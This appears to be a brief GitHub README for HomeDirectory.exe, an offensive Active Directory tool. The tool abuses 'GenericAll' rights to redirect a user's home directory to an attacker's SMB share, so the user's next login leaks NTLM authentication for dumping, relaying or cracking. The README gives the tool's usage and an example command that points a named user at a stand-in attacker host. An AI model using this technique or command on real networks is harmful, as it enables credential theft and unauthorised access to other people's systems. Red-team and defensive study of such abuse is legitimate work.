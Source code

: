 # HomeDirectory
Leverage existing AD rights ('GenericAll') over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe \<username\> \<drive letter\> \<attacker share\>   
Example: HomeDirectory.exe jblogg N \\\attackerip\\bogus_share       
       \**targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server*
  
 
